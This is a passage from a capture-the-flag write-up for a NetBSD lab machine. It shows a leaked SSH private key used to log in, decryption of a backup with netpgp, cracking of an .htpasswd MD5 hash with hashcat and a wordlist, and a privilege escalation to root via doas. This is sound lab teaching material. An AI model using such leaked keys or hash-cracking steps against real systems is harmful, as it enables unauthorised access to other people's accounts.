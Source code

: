 {% highlight text %}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
Icxo9PpLUYzecwdU3LqJlzjFga3kG7VdSEWm+C1fiI4LRwv/iRKyPPvFGTVWvxDXFTKWXh
0DpaB9XVjggYHMr0dbYcSF2V5GMfIyxHQ8vGAE+QeW9I0Z2nl54ar/I/j7c87SY59uRnHQ
kzRXevtPSUXxytfuHYr1Ie1YpGpdKqYrYjevaQR5CAFdXPobMSxpNxFnPyyTFhAbzQuchD
ryXEuMkQOxsqeavnzonomJSuJMIh4ym7NkfQ3eKaPdwbwpiLMZoNReUkBqvsvSBpANVuyK
BNUj4JWjBpo85lrGqB+NG2MuySTtfS8lXwDvNtk/DB3ZSg5OFoL0LKZeCeaE6vXQR5h9t8
3CEdSO8yVrcYMPlzVRBcHp00DdLk4cCtqj+diZmR8MrXokSR8y5XqD3/IdH5+zj1BTHZXE
pXXqVFFB7Jae+LtuZ3XTESrVnpvBY48YRkQXAmMVAAAFkBjYH6gY2B+oAAAAB3NzaC1yc2
EAAAGBAL18SQW5uFSnE9hwASldis4fRnGrcxCUcr7+AAGpbd+PZ3Hw5DHxQSHMaPT6S1GM
3nMHVNy6iZc4xYGt5Bu1XUhFpvgtX4iOC0cL/4kSsjz7xRk1Vr8Q1xUyll4dA6WgfV1Y4I
GBzK9HW2HEhdleRjHyMsR0PLxgBPkHlvSNGdp5eeGq/yP4+3PO0mOfbkZx0JM0V3r7T0lF
8crX7h2K9SHtWKRqXSqmK2I3r2kEeQgBXVz6GzEsaTcRZz8skxYQG80LnIQ68lxLjJEDsb
...
{% endhighlight %}

{% highlight sh %}
ssh -i key r.michaels@luanne
{% endhighlight %}

And we have access to the box as `r.michaels` now !
The user flag is inside the `/home/r.michaels` folder.

## Root

There is another folder that caught my eyes here `/home/r.michaels/backups`. 
Inside of it, there is a `.enc` file.

I tried different tools like `openssl` or `gpg` to decrypted it but wasn't able to decrypt that file. Remember that we are inside of a `NetBSD` system so, we should use the specific tools from <strong>NetBSD</strong>. After a quick search on Google, I've found a tool called `netpgp`.

Let's try it:

{% highlight sh %}
netpgp --decrypt --output=/var/mail/backup.tar.gz ./backups/devel_backup-2020-09-16.tar.gz.enc
{% endhighlight %}

Then decompress the archive:

{% highlight sh %}
cd /var/mail/ && tar -xvf backup.tar.gz
{% endhighlight %}

Inside of the extracted folders, I have a few files and another password inside the `devel-2020-09-16/www/.htpasswd` file:

> webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.

Let's use `hashcat` again and crack it !

{% highlight sh %}
echo -n "\$1\$6xc7I/LW\$WuSQCS6n3yXsjPMSmwHDu." > hash-root && hashcat -m 500 hash-root /usr/share/wordlists/rockyou.txt
{% endhighlight %}

By using `doas` and the new password, I now have root access on the box !

{% highlight sh %}
doas id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
{% endhighlight %}

<strong>Rooted;)</strong>
